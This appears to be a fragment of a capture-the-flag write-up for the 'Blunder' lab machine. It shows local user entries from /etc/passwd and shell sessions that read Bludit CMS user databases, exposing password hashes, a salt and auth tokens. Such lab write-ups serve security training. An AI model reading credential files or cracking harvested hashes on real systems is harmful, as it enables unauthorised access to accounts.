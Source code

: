 ## Local User Enumeration
```
...
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
...
```

## Hugo's DB Credentials
```
(remote) www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

## Administrator's DB Credentials
Hash format: `sha1(pass.salt)`
```
hugo@blunder:/var/www/bludit-3.9.2/bl-content$ cat databases/users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
```
